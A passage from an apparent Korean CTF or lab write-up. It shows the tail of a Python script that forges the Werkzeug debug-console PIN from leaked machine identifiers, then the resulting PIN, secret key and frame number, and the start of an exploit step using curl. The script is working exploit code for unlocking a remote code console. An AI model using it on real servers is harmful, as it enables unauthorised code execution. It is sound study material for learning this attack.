 ```python
        b'68b7c399-244d-470b-b6fa-1efd3c0a294elibpod-ab9607f5d4e7586b770c3cbdee2f6569cf38521c027de1b0e9033c393418aa0f' # /proc/sys/kernel/random/boot_id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv

print(get_pin_and_cookie_name())
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/98d57628-987a-4849-9a6d-fe17643e4b6b" width = 850>
</p>

* **Secret Key** : PU1SKs7zR9IOYtG3qy3k

* **Frame Number** : 139805351218192

143-054-970

### Exploit

생성한 Pin Code와 이전에 확인하였던 Log를 통해서 `curl`로 접속을 시도해보겠습니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/07a1fc28-06ef-4047-9c26-5902cb34948f" width = 850>
</p>
